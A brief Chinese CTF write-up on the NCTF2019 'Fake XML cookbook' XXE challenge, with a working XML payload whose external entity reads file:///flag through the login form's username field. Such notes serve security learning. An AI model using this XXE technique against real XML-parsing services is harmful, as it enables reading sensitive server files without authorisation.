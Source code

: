 ```yaml
---
title: "XXE相关"
date: 2020-04-14
description: "记录CTF中遇到的XXE题型"
tags: ["XXE"]
categories: ["CTF"]
---
```


## [NCTF2019]Fake XML cookbook

- 抓包，xml形式提交登录

- 裸的XXE，盲猜flag位于根目录

- payload:

  ```xml-dtd
  <!DOCTYPE user
  [
  <!ELEMENT user (username,password)>
  <!ELEMENT username ANY>
  <!ELEMENT password (#PCDATA)>
  <!ENTITY flag SYSTEM "file:///flag">
  ]>
  <user><username>&flag;</username><password>123</password></user>
  ```


